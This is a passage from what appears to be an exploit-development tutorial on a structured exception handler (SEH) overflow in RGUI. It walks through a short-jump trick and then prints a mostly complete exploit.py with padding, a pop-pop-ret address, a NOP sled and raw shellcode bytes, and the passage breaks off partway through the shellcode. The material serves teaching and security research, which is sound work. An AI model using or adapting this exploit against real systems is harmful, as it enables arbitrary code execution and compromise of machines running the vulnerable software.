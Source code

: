 ```python
payload += buf

f.write(payload)
f.close()
```
{% endcode %}

...and send it to RGUI. Observe the crash, continue running the program until the breakpoint at `0x637412c8` is hit and inspect the memory at `0141E768`, where our SEH record, that we've just overflowed, lives. This is where we will jump to after the `pop pop ret` instructions will complete at `0x637412c8`:

![Payload is organized in program's memory](<../../../.gitbook/assets/image (1009).png>)

From the above screenshot, we can derive the following key point - once we land on `0141E768` (red zone), which contains the 4 bytes representing our string `BOOM`, we need to jump over to our shellcode in the blue zone.

### Jumping Over to Shellcode

We need to replace the `BOOM` string in our exploit code (which represents the address of the next SEH record) with a simple relative short `jmp` instruction that jumps 6 bytes further into the code. The instuction can be encoded using the following bytes `eb 06`. Additionally, since the `jmp` instruction is only 2 bytes, we'd need to supplement it with 2 NOP bytes to ensure the exploit reliability. So, `BOOM` should be replaced with bytes `eb 06 90 90` like so:

```python
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"
```

Note that even though we say we're jumping over 6 bytes into the code, but in fact, we are jumping over 8 bytes, because the `jmp` instruction itself is 2 bytes, so therefore 2+6=8. Essentially, we are jumping over the SEH record itself after which our shellcode lives.

Our payload visually should now look like this:

![](<../../../.gitbook/assets/image (1023).png>)

### Exploit

Let's see the full updated exploit code now:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
```